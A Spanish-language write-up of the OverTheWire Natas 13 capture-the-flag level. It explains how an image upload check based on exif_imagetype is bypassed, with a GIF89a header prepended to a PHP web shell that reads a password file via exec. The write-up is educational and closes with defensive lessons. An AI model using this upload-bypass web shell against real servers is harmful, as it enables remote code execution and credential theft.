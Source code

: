 # Natas 13 – OverTheWire

La página muestra un formulario para subir archivos (como en el nivel anterior). Esta vez, al intentar subir un archivo `.php`, la aplicación responde:

```url
File rejected! It seems to be not an image.
```

## Analisis

En el código fuente encontramos algo como:

```php
if (exif_imagetype($_FILES['uploadedfile']['tmp_name']) != false) {
    // aceptar el archivo
} else {
    echo "File rejected! It seems to be not an image.";
}
```

Esto significa que el servidor utiliza la función `exif_imagetype()` para comprobar que el fichero subido comienza con los **bytes mágicos (magic bytes)** de una imagen real (JPG, PNG, GIF, etc.).

### Concepto: Magic Bytes

Los **magic bytes** son los primeros bytes de un archivo, que indican su tipo.
Por ejemplo:

| Tipo de archivo | Magic Bytes (en hexadecimal) | En texto |
| --------------- | ---------------------------- | -------- |
| JPEG            | `FF D8 FF`                   | ÿØÿ      |
| PNG             | `89 50 4E 47 0D 0A 1A 0A`    | ‰PNG.... |
| GIF             | `47 49 46 38`                | GIF8     |

Los programas (y funciones como `exif_imagetype`) los usan para identificar el formato del archivo. Si esos bytes no están, el archivo no pasa la validación.

Teniendo todo esto en cuenta lo que debemos hacer es usar la funcion `exec` como hicimos en el ejercicio anterior y ademas añadirle al archivo la cabezera de un arcivo `.gif` por ejemplo.

```php
GIF89a
<?php echo exec('cat /etc/natas_webpass/natas14'); ?>
```

Como en el jercicio anterior subimos el archivo y luego dentro del modo inspeccion vamos a cambiar la extension del archivo a `.php`.

Seguimos el enlace y ya tendremos la contraseña de natas 14

![Contraseña](Assets/Natas13/Contraseña.png)

## Conclusion

- Validar únicamente la extensión o los magic bytes **no protege contra código malicioso**.
- La ejecución de código en archivos subidos es una vulnerabilidad crítica (RCE).
- Los archivos subidos deben almacenarse fuera del docroot y servirse de forma estática.
